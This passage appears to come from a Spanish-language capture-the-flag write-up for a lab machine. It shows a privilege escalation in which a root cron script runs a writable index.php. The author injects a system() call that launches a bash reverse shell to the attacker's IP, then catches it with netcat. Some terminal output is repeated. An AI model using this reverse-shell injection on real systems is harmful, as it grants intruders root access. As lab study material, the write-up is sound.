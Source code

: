 Subo el ```pspy``` y detecta un script que se ejecuta por el usuario root en el contenedor

```null
2023/02/13 05:53:16 CMD: UID=0    PID=1925   | /bin/bash /opt/heartbeat.sh 
2023/02/13 05:53:16 CMD: UID=0    PID=1926   | /bin/bash /opt/heartbeat.sh 
```

No tengo capacidad de escritura

```null
#!/bin/bash
#Run a site availability check every 10 seconds via cron
checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
	exit
fi
status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
grep "Welcome to backdrop.carpediem.htb!" "$status"
if [[ "$?" != 0 ]]; then
	#something went wrong.  restoring from backup.
	cp /root/index.php /var/www/html/backdrop/index.php
fi
```

Pero dentro de ```/var/www/html/backdrop``` sí, por lo que puedo intentar modificar el ```index.php``` para que cuando lo ejecute root me envíe una reverse shell

```null
www-data@90c7f522b842:/var/www$ echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.16.7/443 0>&1' > /tmp/shell.sh
www-data@90c7f522b842:/var/www$ chmod +x /tmp/shell.sh

echo 'system("bash /tmp/shell.sh");' >> index.php 
```

Gano acceso como root, todavía en el contenedor

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.167] 52852
bash: cannot set terminal process group (2295): Inappropriate ioctl for device
bash: no job control in this shell
root@90c7f522b842:/var/www/html/backdrop# hostname -I
hostname -I
172.17.0.2 
root@90c7f522b842:/var/www/html/backdrop# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@90c7f522b842:/var/www/html/backdrop# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.167] 52852
bash: cannot set terminal process group (2295): Inappropriate ioctl for device
bash: no job control in this shell
root@90c7f522b842:/var/www/html/backdrop# hostname -I
hostname -I
172.17.0.2 
root@90c7f522b842:/var/www/html/backdrop# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@90c7f522b842:/var/www/html/backdrop# ^Z
zsh: suspended  nc -nlvp 443
```